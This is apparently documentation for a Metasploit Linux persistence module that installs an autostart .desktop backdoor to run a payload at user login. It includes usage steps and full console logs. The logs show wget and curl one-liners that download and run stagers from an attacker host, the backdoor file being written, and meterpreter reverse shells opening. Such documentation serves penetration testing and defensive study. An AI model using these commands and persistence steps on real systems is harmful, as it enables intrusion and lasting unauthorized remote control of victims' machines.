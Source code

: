 ## Autostart persistence

This module will create an autostart `.desktop` entry to execute a payload.
The payload will be executed when the users logs in.

Verified on Ubuntu 22.04 desktop with Gnome, and 18.04.3.
The following payloads were used in testing:
- `cmd/unix/reverse_netcat`
- `linux/x64/meterpreter/reverse_tcp`
- `cmd/linux/http/x64/meterpreter/reverse_tcp`

### Testing

1. Exploit a box
2. `use exploit/linux/persistence/autostart`
3. `set SESSION <id>`
4. `exploit`

When the victim logs in, your payload will be executed!

### Options

**BACKDOOR_NAME**

Name of autostart entry. Defaults to a randomly generated name

**PAYLOAD_NAME**

Name of the payload file to write. Defaults to a randomly generated name

**USER**

User to target, or current user if blank

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l

[*] Server started.
[*] Run the following command on the target machine:
wget -qO FWdHRs3A --no-check-certificate http://111.111.1.111:8181/l; chmod +x FWdHRs3A; ./FWdHRs3A& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:57884) at 2025-02-06 17:03:03 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/autostart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > exploit
[*] Command to run on remote host: curl -so ./xcsqfBQnCfcm http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xcsqfBQnCfcm;./xcsqfBQnCfcm&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/autostart) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Xorg is installed, possible desktop install.
[!] Payloads in /tmp will only last until reboot, you may want to choose elsewhere.
[*] Making sure the autostart directory exists
[*] Uploading autostart file /home/ubuntu/.config/autostart/bHOXeW.desktop
[+] Backdoor will run on next login by ubuntu
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.0326/ubuntu18desktop.local_20250206.0326.rc
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
```

Login via gui

```
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:44316) at 2025-02-06 17:03:50 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/autostart) > 
```